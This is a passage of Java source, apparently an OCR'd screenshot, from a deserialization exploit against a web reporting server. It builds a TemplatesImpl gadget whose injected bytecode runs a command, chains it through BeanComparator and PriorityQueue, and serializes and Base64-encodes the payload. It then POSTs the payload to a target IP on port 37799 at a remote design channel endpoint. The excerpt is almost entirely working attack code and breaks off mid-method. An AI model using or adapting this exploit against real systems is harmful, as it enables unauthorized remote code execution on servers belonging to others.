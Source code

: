 ```java
        clazz.makeClassInitializer().insertAfter(exec_cmd);
        setFieldValue(obj, "_bytecodes", new byte[][]{
//                ClassPool.getDefault().get(evil.EvilTemplatesImpl.class.getName()).toBytecode()
                clazz.toBytecode()

        });
        setFieldValue(obj, "_name", "HelloTemplatesImpl");
        setFieldValue(obj, "_tfactory", new TransformerFactoryImpl());

        final BeanComparator comparator = new BeanComparator();
        final PriorityQueue<Object> queue = new PriorityQueue<Object>(2, comparator);
        // stub data for replacement later
        queue.add(1);
        queue.add(1);

        setFieldValue(comparator, "property", "outputProperties");
        setFieldValue(queue, "queue", new Object[]{obj, obj});

        ByteArrayOutputStream barr = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(barr);

        // 将 PriorityQueue 对象序列化为字节数组
        oos.writeObject(queue);
        oos.close();

        // 反序列化 ByteArray
//        ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(barr.toByteArray()));
//        Object o = (Object)ois.readObject();

//         Base64 Payload
        String base64Encoded = Base64.getEncoder().encodeToString(genPayload(barr.toByteArray()));
        System.out.println("[+] Base64 Payload: " + base64Encoded);

        sendPayload(genPayload(barr.toByteArray()),targetIP);
    }

    private static void sendPayload(byte[] data,String targetIP) {
        try {
            String urlString = "http://" + targetIP + ":37799/webroot/decision/remote/design/channel";
            System.out.println("[+] Target URL: " + urlString);
            URL url = new URL(urlString);
            HttpURLConnection conn = (HttpURLConnection) url.openConnection();
            conn.setDoOutput(true);
            conn.setRequestMethod("POST");
            conn.setRequestProperty("Content-Type", "application/octet-stream");
            conn.setRequestProperty("Content-Length", String.valueOf(data.length));

            try (DataOutputStream dos = new DataOutputStream(conn.getOutputStream())) {
                dos.write(data);
            }

            int responseCode = conn.getResponseCode();
            System.out.println("[+] Response code: " + responseCode);
            System.out.println("[+] Success !!!");
        } catch (IOException e) {
            e.printStackTrace();
        }
    }

    // 逆封装 Payload，根据
    private static byte[] genPayload(byte[] bytes) throws IOException {
```